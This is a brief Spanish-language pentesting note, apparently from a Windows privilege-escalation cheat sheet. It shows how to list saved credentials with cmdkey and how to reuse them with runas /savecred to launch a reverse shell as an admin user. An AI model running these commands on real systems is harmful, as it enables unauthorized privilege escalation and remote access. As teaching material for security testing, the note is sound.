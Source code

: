 # Saved Credentials

## **Credenciales guardadas**

Windows nos permite utilizar las credenciales de otros usuarios. Esta función también da la opción de guardar estas credenciales en el sistema. El siguiente comando enumerará las credenciales guardadas.

```powershell
cmdkey /list    #enumerará las credenciales guardadas
```

Si ve alguna credencial que valga la pena probar, puede usarla con el comando  `runas` y la opción `/savecred` , como se ve a continuación.

```powershell
runas /savecred /user:admin reverse_shell.exe
```
